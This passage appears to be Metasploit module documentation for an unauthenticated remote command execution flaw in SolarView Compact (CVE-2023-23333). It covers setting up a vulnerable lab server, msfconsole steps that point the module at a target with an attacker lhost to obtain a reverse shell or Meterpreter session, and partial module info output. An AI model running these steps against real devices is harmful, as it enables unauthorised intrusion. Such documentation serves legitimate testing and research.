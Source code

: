 ```console
cd /home/www/
tar -zxvf/tmp/svcUpdateV600.fpk --wildcards 'html/*' 'version'
mv version /opt/svc
chown -R contec.root /home/www/html/*
chown contec.root /opt/svc/version
```
* You should have a `/home/www/html` directory with the vulnerable endpoint `downloader.php` and the version file stored in `/opt/svc`
* Create a dummy `data_zip.sh` shell script in `/usr/local/bin` which is called from `downloader.php` and will trigger the RCE.
```console
echo '#!/bin/bash' > /usr/local/bin/data_zip.sh; chmod 755 /usr/local/bin/data_zip.sh
```
* Add the `short_open_tag On` setting in `php.ini`. You should check your php version to ensure that you edit the right file.
```console
php -v
nano /etc/php/7.4/apache2/php.ini 
```
* Configure your apache server to run under the user context `contec` by editing  `/etc/apache2/envvars`.
* Update the lines with environment variable `export APACHE_RUN_USER=contec` and `export APACHE_RUN_GROUP=root`.
```console
nano /etc/apache2/envvars
systemctl start apache2
```
* Test the module using the verification steps below.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/solarview_unauth_rce_cve_2023_23333`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <ip-attacker>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > info

       Name: SolarView Compact unauthenticated remote command execution vulnerability.
     Module: exploit/linux/http/solarview_unauth_rce_cve_2023_23333
   Platform: PHP, Unix, Linux
       Arch: php, cmd, armle, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-05-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
```